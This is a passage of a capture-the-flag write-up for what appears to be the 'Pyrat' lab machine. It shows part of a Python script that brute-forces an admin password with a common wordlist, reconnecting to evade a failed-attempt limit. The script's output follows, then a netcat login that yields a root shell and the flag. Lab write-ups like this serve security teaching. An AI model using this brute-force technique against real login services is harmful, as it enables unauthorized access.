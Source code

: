 ```shell

                    # Check if the password was correct (adjust based on actual response)
                    if "Welcome" in response or "Access granted" in response:
                        print(f"Correct password found: {password}")
                        return  # Exit once the correct password is found
                    else:
                        print(f"Attempted password: {password} - Incorrect")

                    # If we reached 3 failed attempts, close the current connection and try again
                    if attempt_count % 2 == 0:
                        print("Reached 2 failed attempts. Restarting client...")
                        break

            else:
                print("No password prompt detected. Check if the server is responding correctly.")
                break  # Exit the loop if no password prompt is detected

# Run the password fuzzing
fuzz_passwords()
```

Then we let the magic happen, and we find a password quite quickly :

```shell
$ python3 scriptfuzz.py
Password prompt received. Starting fuzzing...
Attempted password: 123456 - Incorrect
Attempted password: 12345 - Incorrect
Reached 2 failed attempts. Restarting client...
Password prompt received. Starting fuzzing...
Attempted password: 123456789 - Incorrect
Attempted password: password - Incorrect
Reached 2 failed attempts. Restarting client...
Password prompt received. Starting fuzzing...
Attempted password: iloveyou - Incorrect
Attempted password: princess - Incorrect
Reached 2 failed attempts. Restarting client...
Password prompt received. Starting fuzzing...
Attempted password: 1234567 - Incorrect
Attempted password: rockyou - Incorrect
Reached 2 failed attempts. Restarting client...
Password prompt received. Starting fuzzing...
Attempted password: 12345678 - Incorrect
Correct password found: [REDACTED]
```

When we try to connect with those credentials, we are welcomed as the `admin` and obtain a shell with **root privileges**. Then, we witness the presence of the original `pyrat.py` file and the **root flag** in the `/root` directory.

```shell
$ nc $TARGET 8000
admin
Password:
[ADMIN_PASSWORD]
Welcome Admin!!! Type "shell" to begin
shell
# whoami
whoami
root
# ls
ls
pyrat.py  root.txt  snap
# cat root.txt
cat root.txt
```
